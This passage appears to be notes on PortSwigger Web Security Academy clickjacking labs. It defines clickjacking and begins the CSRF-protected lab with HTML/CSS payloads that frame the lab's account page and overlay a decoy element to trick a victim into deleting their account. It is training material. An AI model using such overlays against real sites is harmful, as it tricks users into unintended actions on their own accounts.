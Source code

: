 - [What is Clickjacking?](#what-is-clickjacking)
- [Basic clickjacking with CSRF token protection](#basic-clickjacking-with-csrf-token-protection)
- [Clickjacking with form input data prefilled from a URL parameter](#clickjacking-with-form-input-data-prefilled-from-a-url-parameter)
- [Clickjacking with a frame buster script](#clickjacking-with-a-frame-buster-script)
- [Exploiting clickjacking vulnerability to trigger DOM-based XSS](#exploiting-clickjacking-vulnerability-to-trigger-dom-based-xss)
- [Multistep clickjacking](#multistep-clickjacking)


---

# What is Clickjacking?

Is when an attacker use multiples transparent or opaque layers to trick a user into clicking on a button or link on another page when they were intending to click on the top level page.

Example:
In a website exist a button that say "Free iPhone" but the attacker loaded an invisible iframe that do another action like change email.

If an attacker load [Flash plugin settin page](https://www.macromedia.com/support/documentation/en/flashplayer/help/settings_manager06.html) in a invisible frame can alterate the security settings of Flash, giving permission for any Flash animation to utilize the computer's microphone and camera.

----

# Basic clickjacking with CSRF token protection

In this case you have to use Chrome browser, if this doesn't work you can use Edge.

In the description of the lab indicate that the victim user will click on elements that display the word "click".

The idea is that a user delete his own account. For this we can try to use iframe in our exploit server:

```html
<style>
iframe {
width: 100%;
height: 100%;
}
</style>
<iframe src="https://0abd007c0302dd4080dc6740008d0041.web-security-academy.net/my-account"</iframe>
```

In this case the idea is to add some html structure above the structure:

```html
<style>
iframe {
width: 100%;
height: 100%;
}

div {
position: absolute;
top: 505px;
left: 40px;
}

</style>

<div>testeando</div>
<iframe src="https://0abd007c0302dd4080dc6740008d0041.web-security-academy.net/my-account"</iframe>
```
